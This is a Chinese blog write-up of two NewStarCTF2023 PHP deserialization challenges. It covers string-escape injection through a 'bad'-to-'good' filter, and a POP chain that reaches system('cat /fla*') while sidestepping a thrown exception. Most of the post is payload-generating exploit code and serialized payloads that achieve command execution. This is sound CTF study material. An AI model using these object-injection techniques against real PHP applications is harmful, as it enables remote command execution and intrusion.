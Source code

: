 ```yaml
---
title: NewStarCTF2023 week4 反序列化记录
date: 2023-10-24 11:36 +0800
categories: [CTF,WEB]
tags: [反序列化,web]
media_subpath: /
---
```




## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

这里传入的 `key` 先序列化，在反序列化。

这里的 序列化后 有一个waf 会将 bad 替换成 good，

我们先 正常 传入一个key，进行反序列化得到一个正常的payload

```
O:7:"GetFlag":2:{s:3:"key";s:4:"test";s:3:"cmd";s:6:"whoami";}
```

我们需要伪造的就是 `";s:3:"cmd";s:6:"whoami";}` 这一串，test后面的。

因为，bad 替换成 good 后，中间的 key 的 值 会变长，但是读取的字符串长度是固定的（`s:4:`），就可以让后面的部分`";s:3:"cmd";s:6:"whoami";}`不在反序列化的范围内。

如下面的图，经过waf后，第四段就不在反序列化的范围内了。

![image-20231024093431830](assets/image-20231024093431830.png)



```php
<?php
$cmd = 'ls /';
// ";s:3:"cmd";s:6:"whoami";}
$payload = '";s:3:"cmd";s:' . strlen($cmd) . ':"' . $cmd . '";}';
$badstr =  str_repeat('bad', strlen($payload));
$key = $badstr . $payload;
echo $key;

# badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

我们简单的理解一下，就可以写成一个 payload 生成器。

![image-20231024094642983](assets/image-20231024094642983.png)

注：

```php
<?php

use GetFlag as GlobalGetFlag;

class GetFlag {
    public $key = 'badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}';
    public $cmd = "whoami";
}
// O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:4:"ls /";}
// O:7:"GetFlag":2:{s:3:"key";s:96:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}";s:3:"cmd";s:6:"whoami";}

echo serialize(new GlobalGetFlag());
```





## More Fast（Exception绕过）

```php
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

pop链

```
WEB::evil()
Pwn::__invoke[obj] --> WEB::evil()
Reverse::__get[func] --> Pwn::__invoke
Crypto::__toString[obj] --> Reverse::__get
Start::__destruct[errMsg] --> Crypto::__toString
```

```php
<?php

use Crypto as GlobalCrypto;
use Pwn as GlobalPwn;
use Reverse as GlobalReverse;
use Start as GlobalStart;
use Web as GlobalWeb;

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class myclass{}


$a = new GlobalWeb();
$a->func = 'system';
$a->var = 'cat /fla*';

$b = new GlobalPwn();
$c = new GlobalReverse();
$d = new GlobalCrypto();
$e = new GlobalStart();

$b->obj = $a;
$c->func = $b;
$d->obj = $c;
$e->errMsg = $d;


$payload = serialize(array($e, null));
$payload = str_replace('i:1;N;}', 'i:0;N;}', $payload);
echo $payload;
```



![image-20231024112410706](assets/image-20231024112410706.png)



![image-20231024112832877](assets/image-20231024112832877.png)
